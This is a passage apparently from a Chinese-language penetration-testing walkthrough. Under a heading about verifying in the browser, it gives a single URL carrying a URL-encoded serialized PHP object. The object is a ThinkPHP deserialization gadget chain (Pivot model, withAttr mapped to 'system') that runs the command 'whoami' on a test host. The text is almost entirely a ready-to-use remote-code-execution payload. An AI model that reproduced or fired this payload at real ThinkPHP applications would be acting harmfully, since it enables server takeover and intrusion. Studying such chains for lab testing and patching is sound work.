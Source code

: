 #### 3）浏览器访问当前项目进行验证

```bash
http://`www.wasjpentest008.com`/index.php/index/index?c=O%3A17%3A%22think%5Cmodel%5CPivot%22%3A9%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00withEvent%22%3Bb%3A0%3Bs%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A18%3A%22%00think%5CModel%00force%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A9%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00withEvent%22%3Bb%3A0%3Bs%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A18%3A%22%00think%5CModel%00force%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22xxx%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22xxx%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D
```

